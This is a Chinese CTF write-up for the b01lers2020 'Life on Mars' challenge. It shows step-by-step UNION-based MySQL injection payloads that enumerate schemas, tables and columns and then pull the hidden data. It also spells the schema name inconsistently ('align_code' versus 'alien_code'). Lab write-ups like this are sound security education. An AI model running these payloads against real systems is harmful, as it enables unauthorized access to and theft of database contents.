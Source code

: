 # [b01lers2020]Life on Mars

## 知识点

`sql注入`

## 解题

![](./img/[b01lers2020]LifeonMars-1.png)

然后点击超链接时`get`没有参数也没有路径，应该是用的`POST`传参，使用`burpsuite`抓包查看

![](./img/[b01lers2020]LifeonMars-2.png)

![](./img/[b01lers2020]LifeonMars-3.png)

页面变化时`search`参数和`_`参数均会变化，看看源码是不是`js`处理数据

在`life_on_mars.js`发现请求源码



![](./img/[b01lers2020]LifeonMars-4.png)

看样子有可能是查`数据库`,尝试一下`mysql注入`

在`order by 2`时正常，在`order by 3`时返回异常

![](./img/[b01lers2020]LifeonMars-5.png)

![](./img/[b01lers2020]LifeonMars-6.png)

都能回显

```sql
?search=noachis_terra+union+select+1,2
```

![](./img/[b01lers2020]LifeonMars-7.png)

### 查数据库

```sql
?search=noachis_terra+union+select+1,database()
```

![](./img/[b01lers2020]LifeonMars-8.png)

发现当前数据库名为`aliens`

### 查表名

```sql
?search=noachis_terra+union+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema=database()
```

表有`amazonis_planitia,arabia_terra,chryse_planitia,hellas_basin,hesperia_planum,noachis_terra,olympus_mons,tharsis_rise,utopia_basin`

![](./img/[b01lers2020]LifeonMars-9.png)

发现似乎没有`flag`

重新看看所有数据库

### 查询所有数据库

```sql
?search=noachis_terra+union+select+1,group_concat(schema_name)+from+information_schema.schemata&{}&_=123
```

![](./img/[b01lers2020]LifeonMars-10.png)

发现`align_code`数据库

### 查align_code数据库的表

```sql
?search=noachis_terra+union+select+1,group_concat(table_name)+from+information_schema.tables+where+table_schema='align_code'
```

![](./img/[b01lers2020]LifeonMars-11.png)

表名为`code`

### 查列名

```sql
?search=noachis_terra+union+select+1,group_concat(column_name)+from+information_schema.columns+where+table_name="code" 
```

![](./img/[b01lers2020]LifeonMars-12.png)

发现有两列`id,code`

### 查数据

```sql
?search=noachis_terra+union+select+1,group_concat(id,code)+from+alien_code.code
```

> 因查询的不是当前数据库，数据表前要加数据库名，否则找不到

![](./img/[b01lers2020]LifeonMars-13.png)